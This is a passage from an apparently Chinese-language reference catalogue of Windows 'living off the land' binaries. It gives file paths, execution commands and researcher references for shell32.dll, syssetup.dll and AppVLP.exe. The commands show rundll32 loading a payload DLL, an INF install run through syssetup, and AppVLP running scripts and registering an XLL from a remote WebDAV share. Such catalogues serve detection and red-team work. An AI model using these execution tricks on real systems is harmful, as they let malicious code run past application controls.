 文件路径:
```
c:\windows\system32\shell32.dll
c:\windows\syswow64\shell32.dll
```
- 执行方式：
```
rundll32.exe shell32.dll,Control_RunDLL payload.dll
```
- 参考资料：
```
https://twitter.com/Hexacorn/status/885258886428725250
https://twitter.com/pabraeken/status/991768766898941953
https://twitter.com/mattifestation/status/776574940128485376
https://twitter.com/KyleHanslovan/status/905189665120149506
https://windows10dll.nirsoft.net/shell32_dll.html
```

## Syssetup.dll
- 使用说明：
Windows NT系统安装dll文件。

文件路径:
```
c:\windows\system32\syssetup.dll
c:\windows\syswow64\syssetup.dll
```
- 执行方式：
```
rundll32.exe syssetup.dll,SetupInfObjectInstallAction DefaultInstall 128 c:\test\shady.inf
rundll32 syssetup.dll,SetupInfObjectInstallAction DefaultInstall 128 c:\temp\something.inf
```
- 参考资料：
```
https://twitter.com/pabraeken/status/994392481927258113
https://twitter.com/harr0ey/status/975350238184697857
https://twitter.com/bohops/status/975549525938135040
https://windows10dll.nirsoft.net/syssetup_dll.html
```

# 其他MS程序(21个)
## Appvlp.exe
- 使用说明：

Microsoft Office 2016附带的应用程序虚拟化实用程序。

文件路径:
```
C:\Program Files\Microsoft Office\root\client\appvlp.exe
C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
```
- 执行方式：
```
AppVLP.exe \\webdav\calc.bat
AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe','', '', 'open', 1)"
AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
```
- 参考资料：
```
https://github.com/MoooKitty/Code-Execution
https://twitter.com/moo_hax/status/892388990686347264
https://enigma0x3.net/2018/06/11/the-tale-of-settingcontent-ms-files/
```